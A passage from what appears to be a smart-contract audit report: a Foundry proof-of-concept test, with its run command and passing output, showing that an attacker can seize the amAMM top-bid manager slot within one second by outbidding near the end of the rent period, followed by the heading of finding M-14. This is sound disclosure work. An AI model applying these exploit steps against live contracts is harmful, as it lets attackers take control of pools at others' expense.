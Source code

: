 ```solidity
        vm.stopPrank();
        assertEq(amAmm.getTopBidWrite(POOL_0).manager, address(0));
        assertEq(amAmm.getNextBidWrite(POOL_0).manager, initBidder);
        vm.warp(block.timestamp + K * EPOCH_SIZE);
        assertEq(amAmm.getTopBidWrite(POOL_0).manager, initBidder);
        assertEq(amAmm.getNextBidWrite(POOL_0).manager, address(0));

        // (24 hour - 1 second) has passed, so the remaining rent is 1 second
        vm.warp(block.timestamp + 24 * EPOCH_SIZE - 1);

        // The attacker submit a better bid
        address attacker = makeAddr("attacker");
        amAmm.bidToken().mint(attacker, K * 1.11e18);
        vm.startPrank(attacker);
        amAmm.bidToken().approve(address(amAmm), type(uint256).max);
        amAmm.bid({
            id: POOL_0,
            manager: attacker,
            payload: _swapFeeToPayload(0.01e6),
            rent: 1.11e18,
            deposit: K * 1.11e18
        });
        vm.stopPrank();
        assertEq(amAmm.getTopBidWrite(POOL_0).manager, initBidder);
        assertEq(amAmm.getNextBidWrite(POOL_0).manager, attacker);

        // 1 second has passed, attacker took the top bid in just 1 second.
        vm.warp(block.timestamp + 1);
        assertEq(amAmm.getTopBidWrite(POOL_0).manager, attacker);
        assertEq(amAmm.getNextBidWrite(POOL_0).manager, address(0));
    }
```

Run the PoC.

```bash
forge test -vvv --match-test testYttriumzzPoC0100
```

The result.

```bash
forge test -vvv --match-test testYttriumzzPoC0100
[⠒] Compiling...
No files changed, compilation skipped

Ran 1 test for test/AmAmm.t.sol:AmAmmTest
[PASS] testYttriumzzPoC0100() (gas: 309623)
Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 3.61ms (1.27ms CPU time)

Ran 1 test suite in 19.01ms (3.61ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

# [M-14] BunniZone does not verify amAMM manager properly
